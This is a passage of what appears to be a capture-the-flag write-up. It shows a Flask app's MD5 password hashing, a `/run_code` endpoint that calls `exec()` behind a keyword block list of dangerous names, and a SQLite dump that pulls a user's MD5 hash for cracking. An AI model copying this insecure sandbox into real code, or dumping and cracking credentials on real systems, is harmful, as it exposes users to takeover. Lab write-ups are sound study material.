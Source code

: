 `app.py` - password information on `/register` (*md5 hash*):

```python
@app.route('/register', methods=['GET', 'POST'])                                                         
def register():                                                                                          
    if request.method == 'POST':                                                                         
        username = request.form['username']                                                              
        password = hashlib.md5(request.form['password'].encode()).hexdigest()                            
        existing_user = User.query.filter_by(username=username).first()      
```

`app.py` - code execution on `/run_code`:

```python
@app.route('/run_code', methods=['POST'])                                      
def  run_code():                       
    code = request.form['code']                                                
    old_stdout = sys.stdout            
    redirected_output = sys.stdout = io.StringIO()                             
    try:                               
        for keyword in ['eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write', 'subprocess', '__import__', '__builtins__']:                        
            if keyword in code.lower():                                        
                return jsonify({'output': 'Use of restricted keywords is not allowed.'})                                     
        exec(code)                     
        output = redirected_output.getvalue()                                  
    except Exception as e:             
        output = str(e)                
    finally:                           
        sys.stdout = old_stdout                                                
    return jsonify({'output': output})  
```

From the three above parts we gathered the following valuable information:
* a hardcoded secret key is used by Flask for sessions and security
* the database contains two main tables: `user` and `code`.
* the passwords of the users are hashed using the outdated and insecure MD5 algorithm.
* there are some blacklisted keywords, including `eval`, `exec`, `import`, `open`, `os`, etc
* the `exec()` function is used

After this, we decided to check the database for valuable information, and extract to our machine any passwords that could be brute-forced, now that we knew they were stored as MD5 hashes. 

```bash
app-production@code:~/app/instance$ sqlite3 database.db
sqlite3 database.db
.database 
main: /home/app-production/app/instance/database.db
.tables
code  user
.dump user
PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE user (
        id INTEGER NOT NULL, 
        username VARCHAR(80) NOT NULL, 
        password VARCHAR(80) NOT NULL, 
        PRIMARY KEY (id), 
        UNIQUE (username)
);
INSERT INTO user VALUES(1,'development','759b74ce43947f5f4c91aeddc3e5bad3');
```